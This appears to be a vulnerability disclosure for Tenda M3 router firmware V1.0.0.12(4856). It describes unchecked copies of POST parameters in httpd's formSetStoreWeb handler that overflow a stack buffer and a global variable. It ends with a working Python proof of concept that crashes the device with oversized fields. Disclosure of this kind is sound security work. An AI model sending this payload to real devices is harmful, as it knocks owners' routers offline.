


## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability and a data segment overflow vulnerability. The vulnerability occurrs in the `formSetStoreWeb` function, which can be accessed via the URL `goform/setStoreWeb`





When the POST parameter `action` equals to "save", the program will enter if branch at line 103. In the if body, program copy POST parameter `ssidList` and `storeName` to global variable `g_weixin_config` without chekcing its length. It also copy POST parameter `trademark` to stack buffer `v4` without chekcing its length.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"action": b"save",
    b"ssidList": b'A'*0x600,  # .bss segment overflow
    b"storeName": b'A'*0x600, # .bss segment overflow
    b"trademark": b'A'*0x1000, # stack overflow
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setStoreWeb", data=data, cookies=cookies)
print(res.content)
```

